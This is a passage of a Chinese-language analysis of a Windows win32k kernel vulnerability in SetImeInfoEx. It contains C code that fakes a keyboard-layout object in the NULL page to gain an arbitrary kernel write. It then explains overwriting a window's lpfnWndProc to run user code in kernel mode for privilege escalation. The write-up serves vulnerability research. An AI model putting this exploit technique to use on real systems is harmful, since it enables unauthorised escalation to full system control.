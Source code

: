 接下来构造零页中的数据使其满足函数 `SetImeInfoEx` 的访问逻辑。由于窗口站对象的成员域 `spklList` 指向的是 `tagKL` 类型的对象，因此在这里将 `NULL` 地址起始的内存块当作 `tagKL` 类型的内存对象，并初始化关键的几个成员域的值。

```
DWORD *klFaked = (DWORD *)0;
klFaked[0x02] = (DWORD)klFaked;     // tagKL-&gt;pklNext
klFaked[0x03] = (DWORD)klFaked;     // tagKL-&gt;pklPrev
klFaked[0x05] = (DWORD)iiFaked.hkl; // tagKL-&gt;hkl
klFaked[0x0B] = (DWORD)0xCCCCCCCC;  // tagKL-&gt;piiex
```

函数 `SetImeInfoEx` 通过键盘布局节点对象的指针成员域 `pklNext` 作为索引遍历链表，并根据成员域 `hkl` 进行匹配，因此将该成员域初始化为首节点对象的指针，及当前伪造的键盘布局对象所在的 `NULL` 地址，并将成员域 `hkl` 初始化成与源输入法扩展信息 `tagIMEINFOEX` 对象的成员域 `hkl` 相同的值。

当匹配的键盘布局节点对象被找到之后，函数 `SetImeInfoEx` 将向目标键盘布局对象的指针成员域 `piiex` 指向的缓冲区中写入通过参数从用户进程中传入的源输入法信息 `tagIMEINFOEX` 对象中的数据，实现任意内存地址写原语。

### <a class="reference-link" name="%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E7%9A%84%E5%AE%9E%E7%8E%B0"></a>任意代码执行的实现

内核提权最常见的方法是将当前进程的 `EPROCESS` 对象的指针成员域 `Token` 替换为系统进程的 `Token` 指针。然而到目前为止实现了任意内存地址写原语，却没有实现任意地址读原语，致使替换进程 `Token` 指针操作的难度增加。

可以利用任意地址写原语，将某内核对象的函数指针成员域替换为位于用户进程地址空间中由利用代码实现的函数的地址，并修改代表内核态或用户态执行的相关标志位，进而使该对象在处理相关事件时，在内核中直接执行到位于用户进程地址空间中的函数代码，并在该函数中最终实现内核提权。在本分析中通过替换目标窗口对象的消息处理函数指针成员域 `lpfnWndProc` 来实现。

接下来实现的大致思路是：创建普通窗口对象，将该窗口对象的成员数据填充到源输入法扩展信息 `tagIMEINFOEX` 对象中，置位其中的成员标志位 `bServerSideWindowProc` 并修改指针成员域 `lpfnWndProc` 的值；再使位于零页的伪造键盘布局 `tagKL` 对象的成员域 `piiex` 指向目标窗口对象的内核地址，将位于源输入法扩展信息对象中的被修改过的窗口对象成员数据覆盖到目标窗口对象的内存块中，实现对目标窗口对象的特定成员域的修改。

[![](https://p2.ssl.qhimg.com/t01702eb653b5e12d49.png)](https://p2.ssl.qhimg.com/t01702eb653b5e12d49.png)

首先创建普通的窗口对象作为利用目标窗口对象。根据前面的分析，函数 `SetImeInfoEx` 在执行内存拷贝时是以 `tagIMEINFOEX` 对象的大小作为拷贝范围的。根据分析得知，输入法扩展信息 `tagIMEINFOEX` 对象的大小是 `0x15C` 字节，这远超窗口 `tagWND` 对象的 `0xB0` 字节大小。因此为避免执行内存拷贝时越界访问到后续的无关内存区域中，在注册窗口类时指定足够的扩展区域大小，以使最终分配的目标窗口对象的总大小超过 `0x15C` 字节。

```
WNDCLASSEXW wc    = `{` 0 `}`;
wc.cbSize         = sizeof(WNDCLASSEXW);
wc.lpfnWndProc    = DefWindowProcW;
wc.cbWndExtra     = 0x100;
wc.hInstance      = GetModuleHandleA(NULL);
wc.lpszMenuName   = NULL;
wc.lpszClassName  = L"WNDCLASSHUNT";
RegisterClassExW(&amp;wc);
hwndHunt = CreateWindowExW(WS_EX_LEFT, L"WNDCLASSHUNT",
    NULL,
    WS_VISIBLE,
    0,
    0,
    0,
    0,
    NULL,
    NULL,
    GetModuleHandleA(NULL),
    NULL);
```
